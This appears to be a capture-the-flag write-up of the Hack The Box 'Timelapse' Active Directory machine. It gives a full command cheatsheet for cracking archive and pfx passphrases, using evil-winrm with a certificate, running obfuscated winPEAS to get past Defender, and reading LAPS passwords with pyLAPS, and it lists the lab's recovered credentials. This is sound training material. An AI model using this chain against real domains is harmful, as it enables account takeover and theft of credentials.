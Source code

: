 # Timelapse \[Windows AD Easy]

## Report

A zip file of winrm is retrieved from public available SMB share which when cracked using john gives a pfx file that is further cracked to give a certificate and private key assumably for the user legaccy which is mentioned. Another directory mentioning LAPS management and usage is also visible.

Port 5986 means evil-winrm should be run with the -S flag (SSL over HTTP)

Windows Defender blocks normal exe of winPEAS so run the obfuscated version and expose creds for user svc\_deploy

svc\_deploy is part of the group "LAPS\_READERS" which can expose the LAPS password of the DC. Use this to login is Administrator

## Cheatsheet

```
#ANYTHING THAT REQUIRES A PASSPHRASE -> ${FILE_FORMAT}tojohn
zip2john winrm_backup.zip > winrm_backup_zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt winrm_backup_zip.hash 

openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out yourkey_enc.pem
openssl rsa -in yourkey_enc.pem -out yourkey_dec.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt

#For user legaccy
evil-winrm -i timelapse.htb -S -c certificate.crt -k yourkey_dec.pem

winPEASx64_ofs.exe reveal powershell history
bloodhound
other users: trx, payload and svc_deploy

C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
evil-winrm -i timelapse.htb -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
python3 pyLAPS.py --action get -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV'
DC01$                : ++9aAz4]0l8gipl@6Be.1i$$
evil-winrm -i timelapse.htb -S -u Administrator -p '++9aAz4]0l8gipl@6Be.1i$$'
```

## Loot

### Creds

legacy: public cert and private key from pfx file

svc\_deploy:E3R$Q62^12p7PLlC%KWaxuaV

Administrator:++9aAz4]0l8gipl@6Be.1i\$$

### Proof

How does LAPS work again exactly?

One LAPS manages diff passwords for all admins in domain, but what if the LAPS Manager gets compromised?

It reveals the password of the admin of that DC and system

svc\_deploy was part of a group that could read LAPS creds, BloodHound confirmed it but we can do our manual recon as well, from there pyLAPS.py did the rest

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Learning how to use Bloodhound better has been a gamechanger so far
